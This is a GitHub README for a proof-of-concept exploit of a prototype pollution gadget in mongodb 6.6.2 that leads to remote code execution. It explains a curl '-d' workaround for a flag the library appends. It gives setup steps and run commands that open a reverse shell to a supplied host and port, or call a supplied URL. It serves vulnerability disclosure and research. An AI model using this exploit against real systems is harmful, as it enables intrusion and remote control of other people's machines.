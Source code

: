 # Prototype pollution gadget in mongodb@6.6.2

This repository contains PoC exploit for prototype pollution gadget I found in mongodb NPM library version 6.6.2. For details about the discovery and exploitation of this vulnerability as well as the solution I implemented, check out this [blog post](https://medium.com/@vuusale/brand-new-prototype-pollution-gadget-in-mongodb-leading-to-rce-8c5e0087c15e) about it. 

The exploit takes 1 or 2 arguments; IP and port for reverse shell, or a URL for making an HTTP request. A small change I made to the exploit is adding "-d" after URL. That's because "--idleShutdownTimeoutSecs 60" string is automatically appended to the command by the library, which causes unknown option error in curl. "-d" option turns it into the request's body, resulting in a POST request being made to the supplied URL. 

## Setup steps

1. Install nodejs and npm: `sudo apt-get install nodejs npm`
2. Install required dependencies: `npm install mongodb mongodb-client-encryption`
3. Run the exploit: `node poc.js <LHOST> <LPORT>` or `node poc.js <URL>`

## Docker installation

1. Pull the image: `docker pull vuusale/proto-gadget-mongodb`
2. Run the image: `docker run -it vuusale/proto-gadget-mongodb`
3. Run the exploit: `node poc/poc.js <LHOST> <LPORT>` or `node poc/poc.js <URL>`